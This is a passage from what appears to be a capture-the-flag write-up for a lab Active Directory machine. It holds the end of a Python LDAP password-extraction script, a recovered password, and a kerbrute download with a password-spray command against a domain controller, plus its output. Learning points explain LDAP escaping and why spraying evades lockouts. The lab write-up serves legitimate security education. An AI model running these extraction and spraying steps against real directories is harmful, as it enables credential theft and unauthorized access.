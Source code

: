 ```python
        if extractor.extracted_passwords:
            print("[+] Passwords found so far:")
            for user, pwd in extractor.extracted_passwords.items():
                print(f"    {user}:{pwd}")
                
    except Exception as e:
        print(f"[!] Error: {e}")
        import traceback
        traceback.print_exc()

if __name__ == "__main__":
    asyncio.run(main())
```

**Run extractor:**
```
python3 ldap_password_extract.py
```

**Expected Output:**
```
johnathan.j:change*th1s_p@ssw()rd!!
```

**Learning Point:** The password contains special characters `*`, `(`, `)`, `!` which must be properly escaped in LDAP filters using hex encoding (`\2a` for `*`, etc.). The concurrent approach tests 15 characters simultaneously, drastically reducing extraction time from hours to minutes.

---

## Phase 4: Password Spray & Initial Access

### Kerberos Password Spraying

```
# Download kerbrute
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64

# Password spray
./kerbrute_linux_amd64 passwordspray -d hercules.htb --dc 10.10.11.91 \
  usernames.txt 'change*th1s_p@ssw()rd!!'
```

**Output:**
```
[+] VALID LOGIN: ken.w@hercules.htb:change*th1s_p@ssw()rd!!
```

**Learning Point:** Password spraying attempts one password against many accounts. This is stealthier than brute-forcing one account with many passwords, as it avoids account lockout policies. The extracted password from `johnathan.j`'s description field is reused by `ken.w`.

---
